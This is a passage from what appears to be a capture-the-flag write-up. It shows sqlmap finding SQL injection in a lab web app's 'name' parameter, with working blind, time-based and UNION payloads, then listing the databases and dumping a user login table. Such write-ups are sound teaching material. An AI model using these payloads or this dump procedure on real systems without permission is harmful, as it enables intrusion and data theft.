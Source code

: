 ```

oxdf@hacky$ sqlmap -r logs.php.request
...[snip]...
[13:49:55] [INFO] GET parameter 'name' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'name' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 67 HTTP(s) requests:
---
Parameter: name (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: name=admin') AND 1081=1081 AND ('fFTi'='fFTi

    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (query SLEEP)
    Payload: name=admin') OR (SELECT 8283 FROM (SELECT(SLEEP(5)))Uyda) AND ('jpVt'='jpVt

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: name=admin') UNION ALL SELECT NULL,NULL,CONCAT(0x717a6b7171,0x42676d6d686b6b5452657553507950506a6f6e62636662536d796450626944475270784f62646e4a,0x71717a7071)-- -
---
[13:51:32] [INFO] the back-end DBMS is MySQL
[13:51:32] [CRITICAL] unable to connect to the target URL ('Broken pipe'). sqlmap is going to retry the request(s)
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
...[snip]...

```

Next I’ll list the DBs:

```

oxdf@hacky$ sqlmap -r logs.php.request --dbs
...[snip]...
available databases [4]:
[*] cmsmsdb
[*] information_schema
[*] logs
[*] Overflow
...[snip]...

```

With `-D logs --tables` it shows only one table, `userlog`.

`-D logs -T userlog --dump` shows the logins:

```

Database: logs
Table: userlog
[12 entries]
+----+----------+-----------+
| id | USERNAME | Lastlogin |
+----+----------+-----------+
| 1  | admin    | 11:00:00  |
| 2  | editor   | 10:00:00  |
| 3  | Mark     | 13:00:00  |
| 4  | Diana    | 15:00:00  |
| 5  | Tester   | 16:00:00  |
| 6  | super    | 20:00:00  |
| 7  | frost    | 08:00:00  |
| 8  | Corp     | 10:00:00  |
```